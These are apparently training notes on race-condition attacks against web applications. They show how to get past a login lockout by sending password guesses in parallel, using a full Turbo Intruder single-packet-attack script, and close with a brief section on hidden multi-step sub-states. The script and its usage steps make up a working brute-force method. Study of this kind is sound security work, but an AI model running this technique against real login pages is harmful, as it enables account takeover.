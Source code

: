 ```python
```

As an example, there may a lockout after 3 incorrect logins. Logging in with another username may not appear to be blocked - rate limiting on usernames and not sessions. Consider a race window between:

- Submitting login request
- When website increments failed login counter

Try creating many tabs in Repeater and sending the group of requests in sequence and observe - i.e. after 2 failed login attempts, lockout occurs. Try sending many tabs in parallel and observe again - if more requests don't appear to be locked out, indicates a race condition.

To exploit, send to Turbo Intruder, change the username to desired user and select `race-single-packet-attack.py` script and modify it so it queues once using each password:

```python
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```

Copy list of passwords to clipboard and launch. If no logins, try waiting for lockout to reset and attempt again. If 302 occurs, it may indicate success.
# Hidden Multi-Step Sequences

In practice, a single request may initiate an entire multi-step sequence behind the scenes, transitioning the application through multiple hidden states that it enters and then exits again before request processing is complete - referred to as "sub-states".

If you can identify one or more HTTP requests that cause an interaction with the same data, you can potentially abuse these sub-states to expose time-sensitive variations of the kinds of logic flaws that are common in multi-step workflows.
